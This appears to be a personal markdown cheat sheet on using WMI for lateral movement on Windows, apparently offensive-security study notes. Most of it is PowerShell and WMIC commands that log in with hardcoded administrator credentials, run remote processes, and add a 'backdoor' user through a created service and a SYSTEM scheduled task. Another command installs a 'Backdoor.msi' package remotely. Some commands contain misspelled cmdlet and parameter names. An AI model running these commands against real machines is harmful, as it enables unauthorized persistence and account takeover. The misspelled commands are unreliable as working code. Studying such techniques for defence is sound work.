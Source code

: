 ```yaml
---
category: Uncategorized
tags: []
---
```

#wmi
[WMI](../../Windows/Windows%20Internals/Uncategorized/WMI.md)
# Connecting to WMI on remote machine
### Protocols support
- **DCOM**: RPC over IP. Uses port 135/TCP and port 49152-65535/TCP.
- **Wsman**: Uses WinRM. uses port 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).
```powershell
# Create the PSCredential object to store the credntial
$username = "Administrator";
$password = "Password123";
$securepassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = [System.Management.Automation.PSCredential]::new($username,$securepassword);

# Configure Protocol to use
$opt = New-CimSessionOption -Protocol DCOM;

# Connect to the remote computer 
$session = New-CimSession -ComputerName <SERVER> -Credential $credential -SessionOption $opt -ErrorAction Stop;
```

# Remote Process Creation
- Required Group Membership : Administrators
### Powershell
```powershell
# Create a string storing the command to be executed
$command = "powershell.exe -Command Set-Content -Path C:\Temp\text.txt -Value Hello,World!";

Invoke-CimMethod -CimSession $session -Classname Win32_Process -MethodName create -Arguments @{
	CommandLine = $command;
} 
```
### WMIC
```powershell
# For legacy system using wmic.exe
wmic.exe /user:administrator /password:password123 /node:<server> process call create "cmd.exe /c calc.exe"
```
# Remote Service Creation
- Required Group Membership: Administrator
### Powershell
```powershell
# Create service
Invoke-CimMethod -CimSession $session -ClassName Win32_Service -MethodName create -Arguments @{
	Name = "MyService";
	DisplayName = "MyService";
	PathName = "net user backdoor password /add";
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
	StartMode = "Manual";
}

# Create a service object
$service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'MyService'"

# Start the service
Invoke-CimMethod -InputObject $service -MethodName StartService
# Stop the service
Invoke-CimMethod -InputObject $service -MethodName StopService
# Delete Service
Invoke-CimMethod -InputObject $service -MethodName Delete
```
# Remote Schedule Task Creation
- Required Group Membership: Administrators
### Poweshell
```powershell
# Create command and argument
$Command = "cmd.exe"
$Args = "/c net user backdoor pass /add"

# Create and Run schedule task
$Action = New-ScheduleTaskAction -CimSession $session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "backdoor"
Start-ScheduledTask -CimSession $Session -TaskName "backdoor"

Unregister-ScheduledTask -CimSession $session -TaskName "backdoor"
```
# Installing MSI packages
- MSI packages can be installed using WIM using the `Win32_Product` class's static `Install` method 
### Powershell
```powershell
Invoke-CimMethod -CimSession $session -Class Win32_Product -MethodName Install -Arugments @{
	PackageLocation = "C:\Windows\Backdoor.msi";
	Options = "";
	AllUsers = $false;
}
```
### WMIC
```Powershell
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```